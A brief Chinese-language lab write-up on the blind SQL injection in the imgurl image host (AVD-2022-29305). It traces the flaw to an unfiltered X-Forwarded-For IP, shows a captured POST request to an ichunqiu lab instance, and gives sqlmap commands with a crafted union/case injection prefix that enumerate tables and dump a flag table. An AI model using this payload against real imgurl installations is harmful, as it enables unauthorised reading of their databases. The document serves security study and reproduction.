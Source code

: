 ## 1. 漏洞介绍
[阿里云漏洞库](https://avd.aliyun.com/detail?id=AVD-2022-29305)
## 2. 漏洞分析
[Blind SQL Injection Vulnerability · Issue #75 · helloxz/imgurl · GitHub](https://github.com/helloxz/imgurl/issues/75)
对获取的IP未做过滤，转义等，直接将ip拼接到了sql语句中。
## 3. 漏洞复现
开启环境后用 burpsuite 抓包，由漏洞原理知注入点在获取 IP 的字段，后面以 `x-forwarded-for: ` 为例
示例
```http
POST http://eci-2zegbbx5ie07dgjzp6lh.cloudeci1.ichunqiu.com/upload/localhost HTTP/1.1
Host: eci-2zegbbx5ie07dgjzp6lh.cloudeci1.ichunqiu.com
Content-Length: 0
Accept: application/json, text/javascript, */*; q=0.01
DNT: 1
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.0.0 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryA8Uy4gNxUJfICo01
Origin: http://eci-2zegbbx5ie07dgjzp6lh.cloudeci1.ichunqiu.com
Referer: http://eci-2zegbbx5ie07dgjzp6lh.cloudeci1.ichunqiu.com/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: Hm_lvt_2d0601bd28de7d49818249cf35d95943=1694490097; Hm_lpvt_2d0601bd28de7d49818249cf35d95943=1694490097
x-forwarded-for:  
Connection: close
```
注，`x-forwarded-for: ` 是自己加上去的 
sqlmap 指令
```bash
#表
python sqlmap.py -r post.txt -p x-forwarded-for --prefix="' union select case((1=1) and " --suffix=")when(1)then(10)else(0)end order by num desc-- " -level 3 -risk 3 --dbms sqlite -technique=B --text-only --tables
#列
python sqlmap.py -r post.txt -p x-forwarded-for --prefix="' union select case((1=1) and " --suffix=")when(1)then(10)else(0)end order by num desc-- " -level 3 -risk 3 --dbms sqlite -technique=B --text-only -T flag --columns
#flag
python sqlmap.py -r post.txt -p x-forwarded-for --prefix="' union select case((1=1) and " --suffix=")when(1)then(10)else(0)end order by num desc-- " -level 3 -risk 3 --dbms sqlite -technique=B --text-only -T flag -C flag --dump
```

效果
![1.jpg](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202309121333873.jpg)

